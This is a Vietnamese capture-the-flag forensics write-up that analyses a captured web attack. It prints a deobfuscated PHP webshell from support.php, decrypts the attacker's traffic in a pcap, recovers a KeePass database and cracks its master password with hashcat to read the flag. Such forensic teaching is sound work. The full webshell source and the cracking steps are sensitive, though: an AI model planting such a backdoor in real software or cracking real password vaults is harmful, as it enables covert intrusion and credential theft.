









# Challenge Obscure

## 1. Đầu vào challenge

Challenge cung cấp 3 file:

- `todo-txt`
- `support.php`
- `19-05-21_22532255.pcap`

Mở `support.php` trước

---

## 2. Phân tích `support.php`

Trong `support.php` có một đoạn PHP bị **obfuscate**, nên bước đầu tiên là thử deobfuscate đoạn này.



Sau khi deobfuscate, thu được đoạn code sau:

```php
<?php
$k = "80e32263";
$kh = "6f8af44abea0";
$kf = "351039f4a7b5";
$p = "0UlYyJHG87EJqEz6";

function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0; $i < $l;) {
        for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            $o .= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}

if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@x(@gzcompress($o), $k));
    print("$p$kh$r$kf");
}
?>
```

---

## 3. Ý nghĩa của đoạn PHP sau khi deobfuscate

### 3.1. Các biến chính

Trong đoạn code trên:

- `$k` là **key XOR**
- `$kh` là **marker đầu**
- `$kf` là **marker cuối**
- `$p` là **prefix** được thêm vào response

### 3.2. Hàm `x($t, $k)`

Hàm:

```php
function x($t, $k)
```

dùng để XOR từng byte của dữ liệu với key.

### 3.3. Khối xử lý chính

Đoạn sau là phần quan trọng nhất:

```php
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@x(@gzcompress($o), $k));
    print("$p$kh$r$kf");
}
```

### 3.4. Chức năng thực tế

Đoạn này có tác dụng:

1. đọc **raw request body**
2. attacker nhiều khả năng sẽ dùng **HTTP POST**
3. lấy phần dữ liệu nằm giữa marker đầu và marker cuối
4. thực hiện:
   - Base64 decode
   - XOR
   - giải nén
5. sau đó `eval()` để thực thi payload PHP
6. output sinh ra sẽ được:
   - lưu vào bộ đệm
   - nén lại
   - XOR
   - Base64 encode
7. cuối cùng trả ngược về cho attacker

Đây là một **PHP webshell/backdoor** có cơ chế mã hóa request và response.

---

## 4. Quay lại file pcap

Từ logic của `support.php`, có thể suy ra attacker sẽ gửi request tới webshell bằng phương thức **POST**.

Vì vậy, mở file pcap bằng Wireshark và dùng filter:

```text
http.request.method == "POST"
```



Kết quả cho thấy có **4 HTTP POST request** gửi tới:

```text
/uploads/support.php
```

Tiếp theo, mở **TCP Stream** của từng request để lấy phần dữ liệu cần decrypt.



---

## 5. Decrypt dữ liệu trong request/response

Từ logic mã hóa trong `support.php`, có thể viết script để decrypt phần dữ liệu attacker gửi và dữ liệu server trả về.

Kết quả sau khi decrypt cho thấy webshell đang được dùng để trao đổi dữ liệu nhị phân với attacker.



Ở response cuối, có một chuỗi Base64 đáng chú ý.



Lưu chuỗi Base64 đó vào file `b64.txt`, sau đó decode để khôi phục file nhị phân:

```text
pwdb.kdbx
```

---

## 6. Nhận diện file `pwdb.kdbx`

Sau khi decode, xác nhận được `pwdb.kdbx` là một file **KeePass database**.

### Kiến thức ngoài lề

File **KeePass database** là file dùng để lưu trữ mật khẩu và thông tin đăng nhập ở dạng mã hóa.

Vì vậy, bước tiếp theo là tìm cách chuyển file này sang định dạng hash để brute-force master password.

---

## 7. Chuyển file KeePass sang hash

Thử dùng tool/web hỗ trợ convert file KeePass sang định dạng hash dùng cho Hashcat.

Sau khi convert, thu được chuỗi hash và lưu vào file `hash.txt`:

```text
$keepass$*2*6000*0*204c86ee9d2e89b4d5ff55ebe51c3cd4bf1a904ccea385ab892c9ce8400cc785*b7a535e876d76745024f20fc3e0d1db75d8fd72929de7bec30a565ef4a5ac6e6*118296757720a8d3ca11e1f170483802*5c6b99d0aab4a0957eb0f988b21818d37c31bb8111f83c0d8512556e4bfd1cc8*aa28fb2ca246bdb19dd3c8b2e8b2cd4f2d9630bac44a3ba26b3dbd13cded845b
```



---

## 8. Bruteforce master password bằng Hashcat

Dùng Hashcat để bruteforce password:

```bash
hashcat -m 13400 -a 0 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Kết quả tìm được master password là:

```text
chainsaw
```



---

## 9. Mở KeePass database bằng `kpcli`

Vì `pwdb.kdbx` là một KeePass database, có thể dùng `kpcli` để mở file này bằng master password vừa tìm được:

```bash
kpcli --kdb pwdb.kdbx
```

### Kiến thức ngoài lề

`kpcli` là một công cụ dòng lệnh dùng để làm việc với database KeePass.  
Tool này cho phép:

- mở file `.kdbx`
- nhập master password
- duyệt các group/entry bên trong
- xem các trường như username, password, URL hoặc notes
- **Entry** là một bản ghi / một mục dữ liệu bên trong database.

Sau khi mở thành công file `pwdb.kdbx`, list các group bên trong thì thấy group:

```text
Password/
```

Di chuyển vào `Password/` rồi list các entry bên trong.



---

## 10. Lấy flag

Tiếp tục hiển thị chi tiết entry tương ứng thì thấy được flag:

```text
HTB{pr0tect_y0_shellZ}
```



---

## 11. Tóm tắt flow phân tích

```text
support.php
   |
   v
deobfuscate PHP
   |
   v
nhận ra đây là webshell mã hóa request/response
   |
   v
mở pcap
   |
   v
lọc HTTP POST tới /uploads/support.php
   |
   v
lấy dữ liệu từ TCP stream
   |
   v
decrypt request/response
   |
   v
thu được chuỗi Base64
   |
   v
decode ra file pwdb.kdbx
   |
   v
xác định đây là KeePass database
   |
   v
convert sang hash Hashcat
   |
   v
bruteforce ra password: chainsaw
   |
   v
mở bằng kpcli
   |
   v
đọc entry chứa flag
```

---

